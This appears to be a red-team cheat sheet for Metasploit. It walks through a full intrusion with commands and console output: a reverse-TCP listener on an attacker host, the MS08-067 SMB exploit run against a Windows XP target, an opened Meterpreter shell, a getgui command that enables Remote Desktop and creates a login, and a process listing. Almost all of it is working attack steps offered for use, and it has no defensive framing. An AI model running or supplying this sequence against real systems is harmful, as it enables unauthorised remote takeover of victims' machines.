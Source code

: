 Metasploit
----------



#Start Metasploit
sudo msfconsole 



#Opens meterpreter connect back listener on the RedTeam (Attacker)
msf5 > use multi/handler
set LHOST x.x.x.x
set LPORT 4444
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on x.x.x.x:4444 



#When a vulnerability is suppored by Metasploit
#This will create its own connect back shell run the exploit and start a meterpreter session

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf5 exploit(windows/smb/ms08_067_netapi) > check
[+] x.x.x.x:445 - The target is vulnerable.
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on x.x.x.x:4444
[*] x.x.x.x:445 - Automatically detecting the target...
[*] x.x.x.x:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] x.x.x.x:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] x.x.x.x:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to x.x.x.x
[*] Meterpreter session 1 opened (x.x.x.x:4444 -> x.x.x.x:1032) at 2019-10-26 18:57:59 +0000



#Once connected and elevated on the Blue Host(Victim) enable RDP(Remote Desktop Protocol) via meterpreter
meterpreter > run getgui -u user -p password



#List Process once connected with a shell using meterpreter
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User             Path
 ---   ----  ----                  ----  -------  ----             ----
 0     0     [System Process]                                      
 4     0     System                                                
 264   4     smss.exe 
 3820  1564  w3wp.exe              x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe


